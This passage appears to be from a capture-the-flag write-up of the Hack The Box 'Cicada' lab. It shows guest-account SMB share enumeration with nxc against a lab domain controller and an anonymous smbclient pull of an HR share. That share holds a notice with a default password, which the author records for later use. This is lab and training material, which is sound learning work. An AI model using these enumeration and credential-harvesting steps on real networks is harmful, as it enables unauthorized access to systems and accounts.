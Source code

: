 Guest attempt succeeded:

```bash
nxc smb 10.129.231.149 -u 'Guest' -p '' --shares
SMB         10.129.231.149  445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.129.231.149  445    CICADA-DC        [+] cicada.htb\Guest: 
SMB         10.129.231.149  445    CICADA-DC        [*] Enumerated shares
SMB         10.129.231.149  445    CICADA-DC        Share           Permissions     Remark
SMB         10.129.231.149  445    CICADA-DC        -----           -----------     ------
SMB         10.129.231.149  445    CICADA-DC        ADMIN$                          Remote Admin
SMB         10.129.231.149  445    CICADA-DC        C$                              Default share
SMB         10.129.231.149  445    CICADA-DC        DEV                             
SMB         10.129.231.149  445    CICADA-DC        HR              READ            
SMB         10.129.231.149  445    CICADA-DC        IPC$            READ            Remote IPC
SMB         10.129.231.149  445    CICADA-DC        NETLOGON                        Logon server share 
SMB         10.129.231.149  445    CICADA-DC        SYSVOL                          Logon server share 
```
`ADMIN$, C$, IPC$` are standard on a windows host `NETLOGON, SYSVOL` are standard on a `DC`. `HR, DEV` are non-standard.

As we only have access to `HR`, I pulled the share with `smbclient -N //10.129.231.149/HR` and found `Notice from HR.txt`. 
The file reads: 
```text
Dear new hire!

Welcome to Cicada Corp! We're thrilled to have you join our team. As part of our security protocols, it's essential that you change your default password to something unique and secure.

Your default password is: Cicada$M6Corpb*@Lp#nZp!8

To change your password:

1. Log in to your Cicada Corp account** using the provided username and the default password mentioned above.
2. Once logged in, navigate to your account settings or profile settings section.
3. Look for the option to change your password. This will be labeled as "Change Password".
4. Follow the prompts to create a new password**. Make sure your new password is strong, containing a mix of uppercase letters, lowercase letters, numbers, and special characters.
5. After changing your password, make sure to save your changes.

Remember, your password is a crucial aspect of keeping your account secure. Please do not share your password with anyone, and ensure you use a complex password.

If you encounter any issues or need assistance with changing your password, don't hesitate to reach out to our support team at support@cicada.htb.

Thank you for your attention to this matter, and once again, welcome to the Cicada Corp team!

Best regards,
Cicada Corp
```
I'll note the password:
>`Cicada$M6Corpb*@Lp#nZp!8`
